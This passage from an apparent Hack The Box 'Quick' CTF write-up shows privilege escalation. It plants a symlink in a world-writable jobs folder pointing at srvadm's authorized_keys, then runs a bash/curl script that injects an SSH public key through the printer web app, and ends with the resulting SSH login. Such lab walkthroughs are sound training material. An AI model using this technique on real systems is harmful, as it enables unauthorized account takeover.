 Basically it creates a file in `/var/www/jobs` named as the current time and
write the job description in it. There is an issue here and it's that the jobs
folder is writable by everyone:
```
sam@quick:/var/www$ ls -la
total 20
drwxr-xr-x  5 root root 4096 Mar 21 03:07 .
drwxr-xr-x 14 root root 4096 Mar 20 02:10 ..
drwxr-xr-x  2 root root 4096 Mar 20 03:48 html
drwxrwxrwx  2 root root 4096 May  1 02:58 jobs
drwxr-xr-x  6 root root 4096 Mar 21 03:08 printer
```

We can take advantage of this by creating a link to
`/home/srvadm/.ssh/authorized_keys` named the same way that the printing app
will name the job file, and because the app is running as `srvadm` we can write
anything that we want in it.

We can use a script to exploit this and run it on the remote machine, remember
to change the cookie to your logged in value:
```
#!/usr/bin/env bash
filename=$(date +%Y-%m-%d_%H:%M:%S)
ln -s /home/srvadm/.ssh/authorized_keys /var/www/jobs/${filename}
curl -X POST -s -H 'Content-Type: application/x-www-form-urlencoded' -H 'Host: printerv2.quick.htb' -d 'title=P4&desc=ssh-ed25519+AAAAC3NzaC1lZDI1NTE5AAAAIAqaaTfo3EGYfocydabsSIWvUAqw72gflGkDIXnHY8%2B8+samir%40e8d4f68f63c2%20&submit=' -H 'Cookie: PHPSESSID=6o41v2g5fjpg7ujq0fkodv8dnu' http://localhost/job.php
```

And now we escalated our way to `srvadm`:
```
$ ssh -i sam srvadm@quick.htb
The authenticity of host 'quick.htb (10.10.10.186)' can't be established.
ECDSA key fingerprint is SHA256:kEX5biAHQdV0la1P6VUH52+0TprzbPr+r0UfSni9aRk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'quick.htb,10.10.10.186' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 31 01:05:47 UTC 2020

  System load:  0.0                Users logged in:                1
  Usage of /:   30.1% of 19.56GB   IP address for ens33:           10.10.10.186
  Memory usage: 17%                IP address for br-9ef1bb2e82cd: 172.18.0.1
  Swap usage:   0%                 IP address for docker0:         172.17.0.1
  Processes:    135


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

54 packages can be updated.
28 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Aug 31 00:50:35 2020 from 10.10.14.29
srvadm@quick:~$
```
